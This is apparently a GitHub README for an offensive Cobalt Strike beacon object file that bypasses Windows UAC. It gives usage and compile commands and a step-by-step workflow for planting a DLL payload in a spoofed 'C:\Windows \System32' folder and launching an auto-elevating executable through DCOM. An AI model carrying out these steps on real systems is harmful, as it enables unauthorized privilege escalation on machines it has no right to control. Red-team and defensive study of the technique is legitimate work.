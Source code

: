 # BOF - Trusted Path UAC Bypass
Beacon object file implementation for trusted path UAC bypass. The target executable will be called without involving "cmd.exe" by using DCOM object.

Technical details:

https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

**Usage**

`Example: bof-trustedpath-uacbypass ComputerFaults.exe /root/edputils.dll`

**Compile**

`make`

**Execution**
```
beacon> help bof-trustedpath-uacbypass
====================Trusted Path UAC Bypass BOF Workflow=======================
Step 1: Upload the DLL payload to "C:\Windows\Tasks"
Step 2: Create a new folder called "C:\Windows \System32"
Step 3: Copy desired executable to "C:\Windows \System32"
Step 4: Copy the DLL payload to "C:\Windows \System32"
Step 5: Delete the DLL payload on "C:\Windows\Tasks"
Step 6: Use DCOM to execute "C:\Windows \System32\<desired executable>"
================================================================================

Example: bof-trustedpath-uacbypass ComputerFaults.exe /root/edputils.dll
```

![HowTo](https://github.com/netero1010/TrustedPath-UACBypass-BOF/raw/main/execution.png)

**Credit**

 @Wietze for excellent research by
https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

@Yas_o_h for the awesome DCOM BOF implementation
